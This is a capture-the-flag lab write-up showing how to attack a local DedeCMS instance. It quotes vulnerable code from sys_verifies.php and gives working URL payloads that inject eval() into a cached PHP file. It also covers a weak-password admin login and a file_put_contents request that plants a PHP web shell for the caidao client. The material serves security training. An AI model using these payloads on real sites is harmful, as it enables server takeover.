




# Lab 9.4 Cross-Site Request Forgery (CSRF)

## 0x00 General Overview

Lab site from [zkaq.org][3]

Cross-Site Request Forgery ([CSRF][1]) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated.

So for this type of attack, we usually modify http requests with help of Burp Suite to conduct unauthenticated operations.

## 0x01 Go Hack It

### Home Page


### dedecms Version


We can find some [existing exploit][2] on this CMS.

It shows a vulnerability in **/dede/sys_verifies.php**

```php
else if ($action == 'getfiles')
{
    if(!isset($refiles))
    {
        ShowMsg("你没进行任何操作！","sys_verifies.php");
        exit();
    }
    $cacheFiles = DEDEDATA.'/modifytmp.inc';
    $fp = fopen($cacheFiles, 'w');
    fwrite($fp, '<'.'?php'."\r\n");
    fwrite($fp, '$tmpdir = "'.$tmpdir.'";'."\r\n");
    $dirs = array();
    $i = -1;
    $adminDir = preg_replace("#(.*)[\/\\\\]#", "", dirname(__FILE__));
    foreach($refiles as $filename)
    {
        $filename = substr($filename,3,strlen($filename)-3);
        if(preg_match("#^dede/#i", $filename)) 
        {
            $curdir = GetDirName( preg_replace("#^dede/#i", $adminDir.'/', $filename) );
        } else {
            $curdir = GetDirName($filename);
        }
        if( !isset($dirs[$curdir]) ) 
        {
            $dirs[$curdir] = TestIsFileDir($curdir);
        }
        $i++;
        fwrite($fp, '$files['.$i.'] = "'.$filename.'";'."\r\n");
    }
    fwrite($fp, '$fileConut = '.$i.';'."\r\n");
    fwrite($fp, '?'.'>');
    fclose($fp);

    $dirinfos = '';
    if($i > -1)
    {
        $dirinfos = '<tr bgcolor="#ffffff"><td colspan="2">';
        $dirinfos .= "本次升级需要在下面文件夹写入更新文件，请注意文件夹是否有写入权限：<br />\r\n";
        foreach($dirs as $curdir)
        {
            $dirinfos .= $curdir['name']." 状态：".($curdir['writeable'] ? "[√正常]" : "<font color='red'>[×不可写]</font>")."<br />\r\n";
        }
        $dirinfos .= "</td></tr>\r\n";
    }

    $doneStr = "<iframe name='stafrm' src='sys_verifies.php?action=down&curfile=0' frameborder='0' id='stafrm' width='100%' height='100%'></iframe>\r\n";

    include(DEDEADMIN.'/templets/sys_verifies_getfiles.htm');

    exit();
}
```

So we can create a link to write a shell for it to include.

http://127.0.0.1:8010/csrf/uploads/dede/sys_verifies.php?action=getfiles&refiles[0]=123&refiles[1]=\%22;eval($_GET[test]);die();//

But it shows the requirement for admin access.

### Login as admin

Try with weak passwords.



Successfully loged in.

 

### Web Shell


http://127.0.0.1:8010/csrf/uploads/dede/sys_verifies.php?action=down&test=phpinfo();



### Getshell

With the help of function [file_put_contents()][4], we can write a shell into the server.

http://127.0.0.1:8010/csrf/uploads/dede/sys_verifies.php?action=down&test=$test%20=%20%27%3C?php%20@eval($_POST[\%27test\%27])?%3E%27;file_put_contents(%27test.php%27,%20$test);echo%20%27ok%27;

So we can connect caidao with it.

http://127.0.0.1:8010/csrf/uploads/dede/test.php



### Flag


flag{"tu_lonG_Dao_yi_Da"}

[1]: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
[2]: https://xz.aliyun.com/t/2237
[3]: https://hack.zkaq.org/?a=battle&f=target&id=ba62ea091533f6d6
[4]: https://www.w3schools.com/php/func_filesystem_file_put_contents.asp